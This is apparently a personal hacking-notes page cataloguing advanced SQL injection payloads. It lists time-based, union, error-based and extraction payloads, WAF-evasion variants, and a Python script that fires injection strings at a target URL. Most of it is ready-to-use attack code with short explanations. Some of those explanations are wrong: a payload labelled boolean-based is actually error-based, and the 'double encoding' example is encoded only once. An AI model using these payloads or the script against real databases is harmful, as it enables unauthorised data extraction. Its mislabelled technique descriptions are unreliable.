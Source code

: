 ```yaml
---
title: "Other Advanced SQLi Payloads"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
---
```



## 1. Time-Based Blind SQL Injection with Complex Payloads

Time-based blind SQL injection relies on database responses based on time delays. This method is effective when the application does not return visible errors.

### Payload:

```  
' AND IF(ORD(MID((SELECT IFNULL(CAST(DATABASE() AS NCHAR),0x20)),1,1))>77,SLEEP(5),0)--  
```

### Explanation:

This payload uses conditional statements to delay the response if the first character of the database name is greater than 'M'. It helps in extracting data one character at a time.

#### How it Works:

- **ORD()** function converts the character to its ASCII value.
- **MID()** function extracts a substring from the result of the subquery.
- **IF()** conditionally delays the response using **SLEEP()** based on the ASCII value.
  
This payload is injected into a vulnerable parameter, causing the application to delay its response if the condition is true, helping to infer the value of the character.

## 2. Boolean-Based Blind SQL Injection with Large Payloads

Boolean-based blind SQL injection exploits true or false conditions in SQL queries to extract information.

### Payload:

```  
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT (SELECT CONCAT(0x7e,0x27, DATABASE(), 0x27,0x7e)) FROM information_schema.tables LIMIT 1,1), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) a)--  
```

### Explanation:

This payload uses a subquery to concatenate the database name with special characters and group by a random value, forcing the database to return a specific result.

#### How it Works:

- **COUNT(*)** counts the number of rows returned.
- **CONCAT()** concatenates the database name with special characters.
- **RAND()** generates a random number.
- **GROUP BY** forces the query to execute the subquery, leading to an error if the condition is false.

This payload helps in extracting information by observing the application's behavior based on the boolean condition.

## 3. Union-Based SQL Injection with Multiple Statements

### Payload:

```  
' UNION ALL SELECT NULL, CONCAT_WS(CHAR(58,45,45,58), user(), database(), version()), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL  
```

## 4. Error-Based SQL Injection with Advanced Payloads

Error-based SQL Injection relies on the database to generate errors that reveal information about the database structure and content. By crafting payloads that force the database to produce error messages, attackers can extract valuable data.

### Payload:

```  
' AND 1=CONVERT(int, (SELECT @@version))--  
```

### Explanation:

This payload forces the database to convert a string value into an integer, generating an error that includes the database version. By manipulating the payload, attackers can retrieve different pieces of information from the error messages.

#### How it Works:

- The **CONVERT()** function attempts to change the database version string into an integer.
- This causes an error, as the version string cannot be converted to an integer.
- The error message reveals the database version.

### Example Use Case:

```  
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--  
```

This payload generates an error revealing table names from the information_schema.tables.

## WAF Bypass Techniques

WAFs (Web Application Firewalls) often block common SQL injection patterns. Advanced techniques are required to bypass these defenses.

### Double Encoding

### Payload:

```  
%27%20AND%201=1%20--%20  
```

### Explanation:

This payload uses double URL encoding to bypass WAF filters that only decode input once.

### Case Variation

### Payload:

```  
' aND 1=1 --  
```

### Explanation:

This payload uses mixed case to evade case-sensitive WAF filters.

### Comment Obfuscation

### Payload:

```  
'/**/AND/**/1=1--  
```

### Explanation:

This payload inserts comments between keywords to bypass simplistic pattern matching filters.

## Automating SQL Injection with Python

Automating SQL Injection can save time and increase efficiency. Python, with its versatile libraries, is an excellent choice for creating automated tools.

### Sample Python Script for Automating SQL Injection

### Script:

```
import requests  

def sqli_test(url, payload):  
    full_url = f"{url}{payload}"  
    response = requests.get(full_url)  
    return response.text  

def main():  
    url = 'http://example.com/vulnerable_page.php?id='  
    payloads = [  
        "' AND 1=1 -- ",  
        "' AND 1=2 -- ",  
        "' UNION SELECT NULL, CONCAT_WS(CHAR(58,45,45,58), user(), database(), version()), NULL -- "  
    ]  

    for payload in payloads:  
        result = sqli_test(url, payload)  
        if "error" in result or "You have an error in your SQL syntax" in result:  
            print(f"Potential SQL Injection vulnerability found with payload: {payload}")  
            print(result)  

if __name__ == "__main__":  
    main()  
```

### Explanation:

- The script defines a function **sqli_test()** to send HTTP GET requests with SQLi payloads.
- The **main()** function iterates over a list of payloads, sending each to the target URL.
- The script checks the response for typical SQL error messages, indicating a potential vulnerability.

## Appendix: Additional Payloads and Resources

### Additional Payloads

- **Extracting Database Users:**

```  
' UNION SELECT NULL, user() --  
```

- **Extracting Table Names:**

```  
' UNION SELECT NULL, table_name FROM information_schema.tables --  
```

- **Extracting Column Names:**

```  
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' --  
```